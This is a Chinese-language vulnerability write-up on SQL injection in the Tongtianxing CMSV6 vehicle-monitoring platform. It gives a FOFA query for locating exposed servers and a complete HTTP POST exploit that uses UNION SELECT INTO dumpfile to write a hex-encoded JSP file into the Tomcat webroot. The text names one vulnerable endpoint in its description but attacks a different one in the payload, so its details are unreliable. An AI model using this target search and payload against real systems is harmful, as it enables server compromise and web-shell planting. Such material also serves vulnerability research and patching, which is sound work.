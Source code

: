 # 通天星CMSV6存在SQL注入漏洞

### 1.漏洞描述

通天星CMSV6车载定位监控平台拥有以位置服务、无线3G/4G视频传输、云存储服务为核心的研发团队，专注于为定位、无线视频终端产品提供平台服务，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。

通天星CMSV6车载定位监控平台 downloadLogger.action?ids接口处存在SQL注入漏洞，恶意攻击者可能会利用该漏洞获取敏感信息，从而导致服务器失陷。

### 2.fofa语法

```plain
body="/808gps/"
```

### 3.漏洞复现

```plain
POST /point_manage/merge HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.2882.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded


id=1&name=1' UNION SELECT%0aNULL, 0x3c25206f75742e7072696e7428227a7a3031306622293b206e6577206a6176612e696f2e46696c65286170706c69636174696f6e2e6765745265616c5061746828726571756573742e676574536572766c657450617468282929292e64656c65746528293b20253e,NULL,NULL,NULL,NULL,NULL,NULL
INTO dumpfile '../../tomcat/webapps/gpsweb/allgods.jsp' FROM user_session a
WHERE '1 '='1 &type=3&map_id=4&install_place=5&check_item=6&create_time=7&update_time=8
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719314113974-3a51d820-60ed-45f7-9a46-60d26e0c11bd.png)

拼接路径    /allgods.jsp

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719314236921-e4710fc9-25fc-4ec8-b854-f7fed2d65e78.png)